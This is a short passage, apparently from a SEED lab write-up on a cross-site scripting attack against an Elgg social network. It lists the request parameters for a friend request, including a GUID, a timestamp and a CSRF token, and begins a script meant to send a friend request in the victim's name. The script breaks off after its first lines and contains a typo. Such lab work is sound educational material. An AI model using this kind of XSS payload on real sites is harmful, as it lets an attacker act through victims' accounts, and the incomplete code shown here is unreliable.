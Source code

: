 ![alt text](/assets/img/seed/WO2/img6.png)

1. friend=58 (the target user’s GUID)
2. __elgg_ts=1761177697 (timestamp)
3. __elgg_token=THpb4xfz3osE5634RlcsmQ (security token)


These parameters are dynamically generated by JavaScript, so hardcoding them is not feasible. I crafted a script to dynamically fetch the timestamp and token, then send a friend request on behalf of the victim:

![alt text](/assets/img/seed/WO2/img7.png)
```yaml

<script type="text/javascript">
windows.onload = function(){

```